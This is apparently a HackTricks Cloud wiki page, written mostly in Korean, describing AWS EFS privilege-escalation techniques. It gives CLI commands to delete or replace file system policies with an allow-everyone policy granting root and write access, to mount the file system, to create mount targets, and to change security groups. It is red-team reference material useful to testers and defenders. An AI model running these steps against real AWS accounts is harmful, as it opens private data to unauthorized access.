 # AWS - EFS Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## EFS

EFS에 대한 **더 많은 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS를 마운트하려면 EFS가 노출된 서브네트워크에 있어야 하며 이에 대한 접근 권한이 필요합니다(보안 그룹). 이러한 조건이 충족되면 기본적으로 항상 마운트할 수 있지만, IAM 정책으로 보호되는 경우 여기에서 언급된 추가 권한이 필요합니다.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

이 권한 중 하나로 공격자는 **파일 시스템 정책을 변경**하여 **접근 권한을 부여**하거나 **삭제**하여 **기본 접근**이 허용되도록 할 수 있습니다.

정책을 삭제하려면:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
변경하려면:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

이 권한을 통해 공격자는 **EFS를 마운트**할 수 있습니다. 기본적으로 EFS를 마운트할 수 있는 모든 사용자에게 쓰기 권한이 부여되지 않는 경우, 그는 **읽기 접근**만 가질 것입니다.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
`elasticfilesystem:ClientRootAccess` 및 `elasticfilesystem:ClientWrite`의 추가 권한은 파일 시스템이 마운트된 후 **쓰기** 및 **루트**로 해당 파일 시스템에 **접근**하는 데 사용할 수 있습니다.

**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:CreateMountTarget`

공격자가 EFS의 **마운트 대상**이 존재하지 않는 **서브네트워크**에 있는 경우, 이 권한으로 **자신의 서브넷에 하나를 생성**할 수 있습니다.
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

공격자가 EFS가 자신의 서브네트워크에 마운트 대상을 가지고 있지만 **트래픽을 허용하는 보안 그룹이 없는** 상황을 발견하면, 그는 **선택한 보안 그룹을 수정하여 이를 변경할 수 있습니다**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potential Impact:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
